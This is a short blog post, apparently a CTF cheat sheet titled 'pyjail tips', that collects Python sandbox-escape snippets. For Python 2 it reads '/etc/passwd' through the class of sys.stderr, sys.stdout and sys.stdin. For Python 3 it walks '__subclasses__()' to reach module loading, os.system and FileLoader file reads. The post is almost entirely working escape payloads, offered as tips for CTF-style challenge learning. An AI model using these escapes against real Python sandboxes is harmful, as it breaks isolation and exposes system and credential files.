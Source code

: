 ```yaml
---
layout: post
title: pyjail tips
author: hOwDayS
---
```




<h1>발견할 때 마다 추가 예정</h1>

<br>

<h2>python2</h2>

__read file__

```python
file_path = '/etc/passwd'
print(sys.stderr.__class__(file_path).read())
print(sys.stdout.__class__(file_path).read())
print(sys.stdin.__class__(file_path).read())
```

<br>

<h2>python3</h2>

__run import module__

```python
module_name = 'os'
''.__doc__.__class__.__base__.__subclasses__()[69].load_module(module_name)
#<module 'os' (built-in)>
#<class '_frozen_importlib.BuiltinImporter'>
```

<br>

__run os module__

```python
os_function_name = 'system'
''.__doc__.__class__.__base__.__subclasses__()[117].__init__.__globals__[os_function_name]
#<built-in function system>
#<class 'os._wrap_close'>
```

<br>

__run sys.modules __

```python
module_name = 'os'
''.__doc__.__class__.__base__.__subclasses__()[117].__init__.__globals__['sys'].modules[module_name]
#<module 'os' (built-in)>
#<built-in function system>
```

<br>

__read file__

```python
file_path = '/etc/passwd'
print(''.__doc__.__class__.__base__.__subclasses__()[79]('hOw','DayS').get_data(file_path))
#<class '_frozen_importlib_external.FileLoader'>
```

<br>